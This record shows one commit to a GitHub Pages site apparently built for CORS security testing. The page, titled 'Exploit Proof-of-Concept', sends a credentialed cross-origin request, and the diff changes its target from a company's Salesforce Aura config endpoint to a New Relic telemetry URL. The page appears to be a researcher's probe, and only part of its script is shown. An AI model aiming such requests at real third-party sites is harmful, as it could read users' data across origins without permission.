

Before and after one commit to stelemane/cors-poc-test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (188-1167 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -17,7 +17,7 @@
 
 <div class="box">
     <h2>Exploit Proof-of-Concept</h2>
-    <p>Target: <code>https://marketingportal-cat.earlywarning.com/s/sfsites/aura?r=0&ui-force-components-controllers-hostConfig.HostConfig.getConfigData=1</code></p>
+    <p>Target: <code>https://bam.nr-data.net/ins/1/NRJS-138da68dd4a0401f026?a=1589274676&sa=1&v=1.322.0&t=Unnamed%20Transaction&rst=43504&s=7bd8ad25bdafec6f&ref=https://www.certos.com/contact-us&ptid=6e876eb85443120a&ht=1</code></p>
     <p>Source Origin: <code>https://stelemane.github.io</code></p>
 
     <div id="status" class="status">[*] Initializing Request...</div>
@@ -29,7 +29,7 @@
         const statusDiv = document.getElementById('status');
         const outputDiv = document.getElementById('output');
 
-        const target = "https://marketingportal-cat.earlywarning.com/s/sfsites/aura?r=0&ui-force-components-controllers-hostConfig.HostConfig.getConfigData=1";
+        const target = "https://bam.nr-data.net/ins/1/NRJS-138da68dd4a0401f026?a=1589274676&sa=1&v=1.322.0&t=Unnamed%20Transaction&rst=43504&s=7bd8ad25bdafec6f&ref=https://www.certos.com/contact-us&ptid=6e876eb85443120a&ht=1";
 
         statusDiv.innerText = "[*] Sending request with Authorization & Credentials (No Fingerprint)...";
 
```
